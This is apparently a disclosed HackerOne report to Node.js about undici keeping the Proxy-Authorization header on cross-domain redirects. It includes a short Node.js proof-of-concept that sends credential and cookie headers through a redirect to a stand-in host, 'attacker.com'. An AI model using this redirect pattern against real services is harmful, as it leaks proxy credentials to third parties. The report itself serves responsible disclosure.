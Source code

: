 # Proxy-Authorization header is not cleared in cross-domain redirect in undici

## Report Details
- **Report ID**: 2352957
- **URL**: https://hackerone.com/reports/2352957
- **State**: Closed
- **Severity**: low
- **Submitted**: 2024-02-02T16:09:11.328Z
- **Disclosed**: 2024-03-12T02:17:13.563Z

## Reporter
- **Username**: timon8
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs

## Vulnerability Information
## Steps To Reproduce:

I read this security advisory https://github.com/nodejs/undici/security/advisories/GHSA-wqq4-5wpv-mx2g.
It only clears authorization and cookie header during cross-domain redirect .
{F3024496}
As such this may lead to accidental leakage of "Proxy-Authorization" to a 3rd-party site.
```nodejs
import { request } from 'undici'
const {
    statusCode,
    headers,
    body
} = await request('http://anysite.com/redirect.php?url=http://attacker.com:8182/vvv',{
    maxRedirections: 3,
    headers: {
        "autHorization": 'tes123t',
        "coOkie": "ddd=dddd",
        "X-CSRF-Token": 't5k3zni6fbdqbnce58zbkh7c4o',
        'Proxy-Authorization':'xxxxxxxx'
    }})

console.log('response received', statusCode)
console.log('headers', headers)

for await (const data of body) {
    console.log('data', data)
}
```
{F3024501}


You can refer to this python code.
https://github.com/psf/requests/blob/main/src/requests/sessions.py#L318

References
https://github.com/psf/requests/issues/1885
https://fetch.spec.whatwg.org/#authentication-entries

## Impact

undici v6.5.0

## Attachments
- image.png
- image.png
